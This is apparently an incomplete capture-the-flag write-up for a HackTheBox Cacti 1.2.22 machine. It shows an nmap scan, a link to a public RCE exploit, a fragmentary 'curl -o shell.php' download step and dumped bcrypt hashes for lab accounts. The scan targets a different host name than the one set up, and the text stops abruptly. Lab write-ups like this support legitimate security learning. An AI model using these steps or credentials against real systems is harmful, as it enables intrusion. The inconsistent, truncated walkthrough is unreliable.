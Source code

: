 # Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.11.211 monitorstwo.htb
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV vulnversity.thm
```

We got this result
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# HTTP (port 80)
We found a website that seems to use a webapp named Cacti in version 1.2.22
<img width="749" alt="image" src="https://github.com/MaTe0r/app.hackthebock.com/assets/94843357/72dd313b-88d7-46ed-8fe0-81a25260037d">

By googling, it seems there is no default credentials for the app but we found an RCE for the version 1.2.22 (https://www.exploit-db.com/exploits/51166)
curl -o shell.php


admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC (Jamie Thompson - admin@monitorstwo.htb)
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C (Marcus Brune - marcus@monitorstwo.htb)
guest:43e9a4ab75570f5b
